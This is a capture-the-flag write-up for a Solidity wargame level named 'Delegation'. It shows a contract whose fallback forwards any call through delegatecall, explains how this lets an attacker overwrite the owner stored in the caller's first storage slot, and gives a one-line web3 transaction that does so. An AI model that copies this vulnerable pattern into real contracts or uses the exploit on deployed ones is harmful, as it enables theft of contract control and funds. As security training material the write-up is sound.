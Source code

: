 # **Level 6 -- Delegation**
## **Contract to hack**
``` ts
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

---
## ***Objectives***
* Claim ownership of the contract
---
## ***Thought Process***
In the `Delegation` contract‘s `fallback()` function, we can see that it uses low-level function `delegatecall()` to call the functions in the contract `Delegate` .

When contract A performs a delegatecall to contract B, A will use B's execution logic, but the storage slot in B will not be modified. Instead, the corresponding storage slot value in A will be modified.
For example, in both the `Delegation()` and `Delegate()` contracts, there are two `address` parameter named `owner` and both of them are the `slot0` in their respective contract. 

If we use the `Delegation` contract to delegatecall the `pwn()` function in the `Delagate` contract, the owner of the `Delagate` contract will not be changed. However, the value at the same slot position in the `Delegation` will be replaced by the value of the `msg.sender`.

---
## ***Solution***
``` ts
> await contract.sendTransaction({data: web3.utils.keccak256("pwn()")})
```



